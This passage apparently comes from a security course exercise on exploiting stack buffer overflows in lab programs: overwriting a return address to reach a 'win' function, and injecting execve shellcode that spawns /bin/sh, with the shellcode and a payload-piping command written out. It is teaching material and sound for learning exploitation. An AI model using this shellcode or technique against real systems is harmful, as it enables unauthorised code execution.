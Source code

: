 The goal is still to execute the `win` function, but the program does not
contain a call to `win` anymore.
Hence, instead of overwriting a local variable, you need to overwrite the
programs return address with the address of the function `win`.

**Your tasks**:
1. Find the address of the function `win` in the binary program.
2. Find the offset of the return address relative to the beginning of the
   buffer `name`.
3. Exploit the buffer overflow with a payload that overwrites the return
   address with the address of `win`.

<details><summary>Hint</summary></details>


### Bonus Part 3: Executing Shellcode

In `overflow3.c` the `win` function has disappeared.
Luckily, the stack is now executable, so we can inject our own code into the `name` buffer and execute it.

We want to use the syscall `execve` to spawn a shell so that we can execute arbitrary commands.
```c
execve("/bin/sh", {NULL}, {NULL});
```
You can find information on `execve` on its [manpage of the C wrapper
function](https://man.archlinux.org/man/execve.2) and in the [syscall
reference](https://filippo.io/linux-syscall-table/).

Try to understand the following shellcode which executes the systemcall:
```nasm
# store b'/bin/sh\0' on the stack
mov rax, 0x68732f6e69622f
push rax
# load a pointer to the string into rdi
mov rdi, rsp
# store a NULL pointer on the stack
xor rax, rax
push rax
# load a pointer to the null pointer into rsi and rdx
mov rsi, rsp
mov rdx, rsp
# load the syscall number of execve into rax
mov rax, 0x3b
# execute the syscall
syscall
```
You can for example use the [Online
Assembler](https://defuse.ca/online-x86-assembler.htm) (remember to select
"x64") to assemble the shellcode to obtain executable machine code.

To complete the exploit, we still need the address where we want to jump, i.e.,
the address of the shellcode inside the `name` buffer.
The program is nice enough to print the address of `name` to us, and if you run
it with the command `setarch $(uname -m) -R ./overflow3`, then ASLR is disabled
and the address stays the same in each execution.

```
(python -c "import os, struct; os.write(1, b'<write your payload here>)"; cat) | setarch $(uname -m) -R ./overflow3
```
If everything works, you should land in a newly spawned shell (the `cat` is
necessary to prevent the shell from getting immediately closed again).
Try executing commands.

